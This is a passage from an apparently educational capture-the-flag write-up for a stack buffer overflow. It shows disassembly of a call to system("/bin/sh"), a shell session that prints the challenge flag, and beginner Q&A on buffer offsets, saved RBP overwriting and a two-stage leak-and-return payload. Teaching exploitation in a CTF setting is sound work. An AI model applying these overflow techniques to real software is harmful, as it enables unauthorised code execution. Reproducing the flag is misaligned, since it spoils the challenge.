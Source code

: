 ```asm
40121c:	mov    rdi,rax
```

**RDI = 0x402008** (first argument to system)

```asm
401224:	call   4010a0 <system@plt>
```

**Executes:** `system(0x402008)` = `system("/bin/sh")`

### Step 7: Shell! 🎉

```bash
$ whoami
ctf
$ cat flag.txt
sun{D!d_y0u_s3e_thE_IM4P_spAce_laUncH??}
```

---

## Common Beginner Questions Answered

### Q1: Why overwrite saved RBP with p64(0)?

**A:** Because memory writes **sequentially**! You cannot skip bytes.

```
To reach return address at position 72-79,
you MUST write through positions 0-71.

Position 0-63:   Buffer
Position 64-71:  Saved RBP ← Can't skip this!
Position 72-79:  Return address

We use p64(0) to fill those 8 bytes (any value works in Stage 1).
```

### Q2: What address is leaked? Is it RBP?

**A:** No! It's the **buffer start address** (where buffer[0] is).

```c
printf("... %p", buffer);  // Prints &buffer[0], NOT &rbp
```

The buffer is at `[rbp-0x40]`, NOT at `[rbp]`.

### Q3: Why do we need Stage 1 if it just prints the buffer address?

**A:** Two reasons:

1. **Get the leak** - We need the buffer address to calculate fake RBP
2. **Keep program alive** - By returning to vuln(), we can send Stage 2 payload!
